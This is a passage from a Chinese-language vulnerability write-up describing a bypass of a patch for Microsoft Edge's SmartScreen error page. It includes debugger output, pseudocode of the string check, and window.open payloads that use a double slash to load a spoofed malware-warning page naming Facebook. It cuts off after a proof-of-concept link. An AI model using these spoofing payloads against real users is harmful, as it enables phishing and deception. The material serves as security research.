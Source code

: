 

```
0:013&gt; du @rcx (First argument)
000000d3`14df8ee0 "ms-appx-web://microsoft.microsof"
000000d3`14df8f20 "tedge/assets/errorpages/BlockSit"
000000d3`14df8f60 "e.htm?BlockedDomain=facebook.com"
0:013&gt; du @rdx (Second argument)
00007fff`55d90820 "/assets/errorPages/BlockSite.htm"
```

哈！我们看到%2e（句点）已经被解码了。这让我感觉像是Edge调用了StrStrIW函数后检查了“/assets/errorPages/BlockSite.htm”是否包含在URL中。这是我目前相信的伪代码：



```
var url = "ms-appx-web://microsoft.microsoftedge/assets/errorpages/BlockSite.htm?BlockedDomain=facebook.com";
var badString = "/assets/errorPages/BlockSite.htm";
if (badString is inside URL) ACCESS_DENIED;
```

我们需要记住的很重要的一点是，之所以要调查这里是因为在字符串比较操作之后我们没有看到别的检查，而且比较操作就在我们面前，很快就将被执行。不过我们不用考虑的太多，只要能够用类似的技术绕过就行了。

最主要的问题在于，此处的比较操作是使用硬编码的字符串来进行的，但我们知道URL可以有很多种方式来写。之前我们的办法就是编码一个句点，这次需要想出一种新的办法，因为打补丁后会在作比较前解码句点从而导致失败。

现在我的脑海中浮现出许多种方式，比如多重编码，或者在URL中加入更多的斜杠。让我们试一试加入一个斜杠，可能能够欺骗字符串检查并被视为一个合法的URL。所以我们在errorPages后面加入一个斜杠，像这样：

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages//BlockSite.htm?BlockedDomain=facebook.com");
```

[![](./img/85725/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0165a46bc67ad78ab7.png)

哇！好像一个简单的双斜杠就能绕过补丁并让Edge加载错误页面，让我们构造一个更完善的查询字符串来完全骗过恶意软件警告页面：

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages//BlockSite.htm?BlockedDomain=facebook.com&amp;Host=These guys at Facebook and in particular, Justin Rogers#http://www.facebook.com");
```

[![](./img/85725/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t016d45bd0af79ee29b.png)

<br>

**PoC验证及后话**

PoC链接：

[https://www.cracking.com.ar/demos/edgesmartscreen/patch-bypass-1.html](https://www.cracking.com.ar/demos/edgesmartscreen/patch-bypass-1.html) 

打开后界面如图所示：

[![](./img/85725/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0100cfdc7d231c152e.png)

使用方式很简单，比如想要执行一个如下的JavaScript命令：
